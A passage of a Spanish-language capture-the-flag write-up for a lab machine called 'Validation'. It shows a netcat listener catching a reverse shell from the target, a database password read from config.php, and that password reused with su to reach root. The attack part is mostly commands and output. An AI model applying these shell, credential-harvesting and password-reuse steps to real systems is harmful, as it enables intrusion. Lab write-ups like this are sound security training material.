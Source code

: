 
Y se gana la misma dentro de la máquina atacante.


```bash
nc -lvp 1234
listening on [any] 1234 ...
10.10.11.116: inverse host lookup failed: Host name lookup failure
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.116] 58120
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ 
```
{: .nolineno}


## Escadalada de Privilegios

Al ingresar al equipo, se nota la presencia de un archivo llamado **config.php**. Dada su posible importancia, se procede a revisarlo y efectivamente se encuentra que contiene una credencial para el servicio de la base de datos.


```bash
cat config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```
{: .nolineno}

Dado que existe la posibilidad de que la credencial se reutilice, se realiza la prueba de utilizarla como **root**, lo que permite acceder al usuario con máximos privilegios.

```bash
su root
Password: uhc-9qual-global-pw
whoami
root
```
{: .nolineno}




